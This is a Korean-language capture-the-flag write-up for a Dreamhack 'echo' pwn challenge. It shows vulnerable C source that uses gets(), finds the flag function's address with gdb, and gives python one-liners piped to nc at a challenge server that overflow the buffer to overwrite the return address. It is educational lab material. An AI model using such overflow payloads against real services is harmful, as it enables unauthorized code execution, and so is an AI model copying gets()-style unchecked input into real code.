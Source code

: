 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Dreamhack #Pwn echo Write-Up</h1>
</body>
<br>
<br>
</html>

![image](https://github.com/user-attachments/assets/a3541a39-e399-490b-bda6-52f74e619a2f)

먼저 문제를 읽어보면 서버가 입력받은 내용을 그대로 되돌려주는 에코 서버에 대한 것 같다. 

이어서 ```echo.c```코드를 살펴보면

```
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

void print_flag() {
    puts(getenv("FLAG"));
    puts("^^ Flag!!111!!!! ^^");
}

void do_echo() {
    uint8_t echo_buffer[256] = {0};
    gets(echo_buffer);
    puts(echo_buffer);
}

int main(void) {
    puts("ECHO! Echo! echo!");
    do_echo();
    return 0;
}
```

```do_echo()``` 함수에서 ```gets()``` 함수가 ```echo_buffer``` 배열에 사용자 입력을 받아 저장하고, ```puts()```로 다시 출력하는 단순한 에코 기능이 구현되어 있다. 

그리고 가장 눈에 띄는 ```gets()``` 함수인데 ```gets()``` 함수는 버퍼 오버플로우 공격에 취약하다.

```gets()```는 입력된 데이터가 ```echo_buffer```의 크기(256바이트)를 초과하더라도 제한 없이 메모리에 계속 저장하므로, 이 버퍼 오버플로우를 이용해 ```print_flag()``` 함수를 실행할 수 있을 것 같다.

버퍼 오버플로우 공격을 수행하기 위해서는 ```print_flag()```함수의 주소가 필요하니 디버거(gdb)를 사용해서 ```print_flag()```함수의 주소를 찾아보았다.

![image](https://github.com/user-attachments/assets/d505ee95-7578-41cb-b4fc-b1f2c34b8acd)

이때 x86-64 시스템은 리틀 엔디안 형식을 사용하므로 찾은 ```print_flag()```의 주소 ```0x401176```를 입력할 때는 바이트 순서를 반대로 적어야 한다. 즉, ```\x76\x11\x40\x00```로 사용해야 한다.

본격적으로 버퍼 오버플로우 공격을 시도해 보자

아래 코드 처럼 ```echo_buffer```의 크기(256바이트)를 채운 후 ```return address```에 ```print_flag()```의 주소를 넣으면 된다.

```python
python3 -c 'print("A" * 256 + "\x76\x11\x40\x00")' | nc 54.85.45.101 8008
```

![image](https://github.com/user-attachments/assets/e34ec419-aeb2-42f2-a150-1bf44f57827e)

그러나 flag 값이 나오지 않는다.

뭐가 문제인지 잘 모르겠어서 구글링을 해보니 패딩을 늘려가면서 ```return address```에 도달하는 확인해 볼수 있다고 한다. 

그래서 패딩을 256바이트로 늘려 시도해보았다.

```
python -c 'print("A" * 264 + "\x76\x11\x40\x00\x00\x00\x00\x00")' | nc 54.85.45.101 8008
```

![image](https://github.com/user-attachments/assets/b2eb91e7-a9ba-4d90-ae74-d1931407d5e2)

flag를 찾았다!!!!!
flag{curs3d_are_y0ur_eyes_for_they_see_the_fl4g}
